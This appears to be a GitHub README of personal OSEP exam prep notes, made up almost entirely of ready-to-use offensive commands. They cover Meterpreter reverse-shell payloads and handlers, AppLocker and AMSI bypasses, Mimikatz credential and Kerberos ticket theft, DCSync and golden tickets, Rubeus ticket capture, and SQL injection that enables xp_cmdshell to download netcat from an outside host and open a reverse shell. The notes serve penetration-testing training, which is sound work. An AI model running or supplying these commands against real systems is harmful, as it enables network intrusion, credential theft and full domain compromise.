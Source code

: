 # OSEP-Prep-Notes
OSEP Prep Notes



# Kali File Transfer Server

python -m uploadserver 8000

# RDP with xFreeRDP

xfreerdp /u:USERNAME /p:PASSWORD /w:1366 /h:768 /v:SERVER_IP

# VBA Application Script

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.xx.xx LPORT=443 EXITFUNC=thread -f vbapplication

# Listen With Meterpreter

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST OUR_KALI_IP
set LHOST 443
set EXITFUNC thread
run
```

# Post Exploitation - Migrate To Another Process

```
ps
> find a suitable process (like notepad.exe etc.)

execute -H -f notepad
> or execute any process.

migrate PID_OF_PROCESS
> the migration is success.

run post/windows/manage/migrate
> You should try this too.

getpid
> check current pid
```

# Post Exploitation - Find Readable and Writable Folders
This program is blocked by group policy. For more information, contact your system administrator.
```
accesschk.exe "PWNED_USERNAME" C:\Windows -wus
> Find a RW folder and use the folder for AppLocker Bypass.

or in "powershell -ep bypass"
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

# Post Exploitation - Find Executable in Folders:
```
icacls C:\Windows\Tasks
> Find a folder that you have the RX permission.
```

# Post Exploitation - Bypass CLM and AppLocker:
```
> Compile Bypass_CLM_And_AppLocker_Dynamically.cs and get the exe. Upload the exe to the machine. Maybe you should encrypt for Antivirus Evasion.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U bu.exe
> Run with suitable installutil.exe to bypass.
```

# Get LAPS Computers, User Passwords - LAPSToolkit.ps1
```
> Get-LAPSComputers with LAPSToolkit.ps1 shows LAPS Computers and passwords if there is any readable.
Get-LAPSComputers
```

# AD - Mimikatz Tickets
```
mimikatz64.exe

privilege::debug // as always :D

sekurlsa::logonpasswords // if there is a password

sekurlsa::tickets //Get tickets readable.
sekurlsa::tickets /export //export tickets readable as Kirbi file.

kerberos::ptt [0;..]-2-0-..-SERVER@USER-DOMAIN.kirbi //pass the ticket in the kirbi file.

lsadump::dcsync /domain:infinity.com /user:infinity\krbtgt // DC SYNC

kerberos::golden /user:h4x /domain:infinity.com /sid:S-1-5-21-3616753307-3538385277-467097740 /krbtgt:120f9d6c433ec5b065fee44cf0f89354 /ptt //create_a_admin_user with golder krbtgt hash.
> After golden ptt is success, you can check with dir \\dc03.domain.com\c$
> If you can list dir,  use PsExec64.exe \\dc03.domain.com cmd and it will generate a shell.

```

# AD - Listen With Rubeus
```
Rubeus.exe monitor /interval:5 /filteruser:DC03$ //listen every 5 seconds for new TGTs for the user.
> If any TGT captured, it prints the base64 value of the ticket.

Rubeus.exe ptt /ticket:BASE64_TICKET // You can import the ticket with Rubeus again.
> You can dcsync after ptt and get the ntlm hash.
```

# AD - PrintSpooler
```
> While monitoring with Rubeus, you can force tickets to come.
SpoolSample.exe DC03 WEB05
> SpoopSample.exe TARGET CAPTURE // You should monitor with Rubeus in the Capture server.

```

# PsExec

```
PsExec64.exe \\dc.domain.com cmd

```

# Bloodhound - Init
```
neo4j console
> Open bloodhound app in Kali after the neo4j started.
>localhost:7474 neo4j:neo4j

```

# MSSQL - xp_cmdshell
```
123' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1-- -
123' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
123' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1-- -
123' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
123' UNION SELECT 1,2,3,4,5; EXEC xp_cmdshell 'ping 192.168.xx.xx'-- -
```
# MSSQL - sqsh and linked sql servers.
```
sqsh -S IP -U username -P password -D dbname
> Connect

EXEC sp_linkedservers;
go
> List linked servers.

select version from openquery("SQL27", 'select @@version as version')
go
> Find version of a linked server.

EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT SQL27;
go
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT SQL27;
go
EXEC ('reconfigure;') AT SQL27;
go
> Allow xp_cmdshell on a linked server remotely.

EXEC ('xp_cmdshell "curl http://192.168.45.172/nc.exe -o nc.exe ; nc.exe -e powershell 192.168.45.172 4444";') AT SQL27;
> Download nc for reverse shell on a linked server.

EXEC ('xp_cmdshell "nc.exe -e powershell 192.168.45.172 4444";') AT SQL27;
> Get a reverse shell after download. Don't forget to listen the port.
```

# AMSI Bypass in Powershell
```
This script contains malicious content and has been blocked by your antivirus software.

(new-object system.net.webclient).downloadstring('http://192.168.xx.xx/amsi.txt') | IEX
> That bypass the amsi.

Import-Module .\PowerView.ps1
> You can import modules now.

```
